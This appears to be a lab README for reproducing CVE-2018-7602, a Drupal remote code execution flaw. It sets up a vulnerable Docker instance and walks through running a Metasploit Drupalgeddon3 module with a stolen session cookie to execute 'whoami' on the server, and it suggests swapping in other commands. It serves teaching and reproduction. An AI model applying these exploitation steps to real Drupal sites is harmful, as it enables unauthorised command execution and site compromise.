


# CVE-2018-7602

>A remote code execution vulnerability exists within multiple subsystems of Drupal 7.x and 8.x. This potentially allows attackers to exploit multiple attack vectors on a Drupal site, which could result in the site being compromised. This vulnerability is related to Drupal core - Highly critical - Remote Code Execution - SA-CORE-2018-002. Both SA-CORE-2018-002 and this vulnerability are being exploited in the wild.
> --- <cite>[MITRE](https://nvd.nist.gov/vuln/detail/CVE-2018-7602)</cite>

## Steps to reproduce the vulnerability


### Environment setup
Here we have a two steps procedure, first the drupal machine with a vulnerable version 7.57 and second the attacking machine with a modified exploit that allow us to show the vulnerability potential danger.

- **Vulnerable machine**: For the environment setup we have to execute the following command:
```
# Supposing that you are placed inside the directory CVE-2018-7602
cd vulnerable_machine
docker-compose up -d
cd ..
```
  - ***Warning*** Be sure that the port 80 are not used by any other software before running the command.


- **Attacking machine**: Here we will instantiate a Metasploit docker image that contains a customized exploit which we will use furthermore. To doing that we execute:
```
cd attacking_machine
docker-compose run --rm --service-ports -e MSF_UID=$(id -u) -e MSF_GID=$(id -g) ms
```
  - **Clarification**: Is recommended have a separated terminal executing that command given that we will need that session for the exploit phase.

If you have some problem executing the commands below, send me an email to andres.castellanos-paez@grenoble-inp.org attaching the execution log and I'll be glad to help you solve the problem.


### Drupal configuration

Now that we have Drupal running we have to create some basic information before starting with the exploit phase. To doing that follow the next steps:

1. Go to the drupal main page that should be located in **http://localhost** then use the default configurations and click next in each step.
Using like database credentials:
  - **username**: postgres
  - **password**: safe_password
  - **database host**: Change in the advanced options for the database. the database host from localhost to postgres



2. The next step is to create a node in drupal. A node means content like a page or blog entry. To do that only log in if you are not logged and click on **add new content**. Then choise an article or basic page fill it with random information and save the number that appears in the url space after the creation of the page. Ussually is **1** if is the first page created.



### Exploiting the vulnerability
```
# Overview
We will try to use the vulnerability to execute commands like ls or whoami
to show that it is possible to execute commands remotely.
```

Now that we have the vulnerable Drupal instance running on localhost. The next steps is to start using the metasploit instance created in the environment setup step.

We need to reload the exploit database using the command:
```
reload_all
```
With that we have access to our needed exploit. So to prepare the exploit needed info we will need the session cookies from some user logged in on the site.

To obtain it in an easy way. Supposing you're still logged in. Go to the developers tools look at the cookies storage and save it for later. You should obtain at the end something like
```
#<session_name>=<session_token>
SESS49960de5880e8c687434170f6476605b=DGHZKHWaNC51nrVQHEsTD0_PS68EeNyvGjdzk1SVmss
```
An example using google chrome to obtain the cookie


Now we start loading the exploit with metasploit. For doing that execute the following commands:
```
use exploits/unix/webapp/drupal_drupalgeddon3_commander
show options
```
Like you can see we need some parameters.
We set up the parameters like that
```
set RHOSTS localhost
set DRUPAL_SESSION <session_name>=<session_token>
set TARGET 0
set DRUPAL_NODE <drupal_node_number>
```

After doing that we can execute
```
exploit
```
We will get the user that is currently executing the web server. On this case **www-data**. Because the default command seted up is ***whoami***. Also you will see some extra information in JSON format that is not relevant for us.

Final exploit result look:


**End of experimentation**: If you arrived to execute all the experimentation successfully then is the end **Congratulations**.

*If you want to follow experimenting you can change the command value using the set instruction. Or modify the ruby script used by metasploit.*
